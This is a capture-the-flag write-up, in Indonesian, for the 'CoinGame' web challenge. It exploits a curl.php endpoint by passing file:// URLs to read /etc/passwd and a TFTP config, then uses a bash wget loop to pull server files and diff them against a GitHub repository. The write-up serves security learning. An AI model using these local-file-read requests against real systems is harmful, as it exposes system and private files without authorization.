



## Problem
---

```
Description
Hi guy !
Hi !
Are you still working on your famous game?
Yes of course, I made some modifications to make it more fun.
Can I take a look at it?
No, I prefer to keep it on my file server. Sorry ;)
```
**Url :** http://coingame.challs.malice.fr/

## Writeup
---

Website yang diberikan memiliki fungsi untuk melakukan fetch terhadap input url yg kita berikan. dan kita dapat
mengontrol protokol apa yang akan kita gunakan. untuk membaca lokal file saya menggunakan protokol file://
`http://coingame.challs.malice.fr/curl.php?way=file%3A%2F%2F%2Fetc%2Fpasswd` => untuk file /etc/passwd

pada file /etc/passwd kita belum menemukan informasi lokasi flag kemudian saya mencoba untuk melakukan fuzzing menggunakan burpsuite intruder untuk
mencari configuration file pada sistem linux



belum mendapatkan hal yang menarik, kembali ke file /etc/passwd disana terlihat
ada user `tftp:x:104:107:tftp daemon,,,:/srv/tftp:/bin/false` menurut wikipedia `https://en.wikipedia.org/wiki/CURL` 
curl support tftp, setelah membaca `https://help.ubuntu.com/community/TFTP` diketahui file configurasi untuk
tftp yang bisa kita baca `http://coingame.challs.malice.fr/curl.php?way=file:///etc/default/tftpd-hpa`

```

# /etc/default/tftpd-hpa

TFTP_USERNAME="tftp"
TFTP_DIRECTORY="/home/CoinGame"
TFTP_ADDRESS="0.0.0.0:69"
TFTP_OPTIONS="--secure --create"
``` 

sampai ke tahap dimana kita butuh kemampuan untuk ~~guessing~~ recon
untuk mencari akun dari author soal tersebut di internet dan kita bisa temukan di copyright 
terlihat ada username `TOTHEYELLOWMOON` dan juga di github kita mendapatkan repository CoinGame
`https://github.com/totheyellowmoon/CoinGame/`

Deskripsi dari repositorynya : Congrats it was the first step ! Welcome on my Github, this is my new game but I haven't pushed the modifications ...
dari deskripsinya kita bisa menebak bahwa kode yang terbarunya hanya tersimpan di servernya dan belum di push.

kita clone repositorynya untuk membantu kita mengambil file yang ada diserver dengan memanfaatkan filename nya,
dan kita bandingkan md5sum nya dengan yang ada di server.

```
mkdir ctf
cd ctf
git clone https://github.com/totheyellowmoon/CoinGame.git
mkdir -p Server Server/photo Server/CardFiles Server/Cards Server/Decks Server/gameAnimationImages Server/photo/Drag Server/photo/Moderne Server/photo/New Server/photo/Ogres Server/photo/reve
cd CoinGame
#Download Core file
dir=("" "CardFiles" "Cards" "Decks" "gameAnimationImages" "photo");for d in "${dir[@]}"; do for x in $(ls -1p $d | grep -v /);do wget "http://coingame.challs.malice.fr/curl.php?way=file:///home/CoinGame/$d/$x" -O "../Server/$d/$x";done;done
cd photo
#Subfolder photo
dir=("Drag" "Moderne" "New" "Ogres" "reve");for d in "${dir[@]}"; do for x in $(ls -1p $d | grep -v /);do wget "http://coingame.challs.malice.fr/curl.php?way=file:///home/CoinGame/photo/$d/$x" -O "../../Server/photo/$d/$x";done;done
cd ../
#diff the file
dir=("CardFiles" "Cards" "Decks" "gameAnimationImages" "photo" "photo/Drag" "photo/Moderne" "photo/New" "photo/Ogres" "photo/reve"); for d in "${dir[@]}"; do diff <(md5sum $d/* | sed "s/$d//") <(md5sum ../Server/$d/* | sed "s/\.\.\/Server\/$d//");done
```

dan didapatkan perbedaan dari file yang ada di repository dan di server



flag di temukan di file background[0-3].png


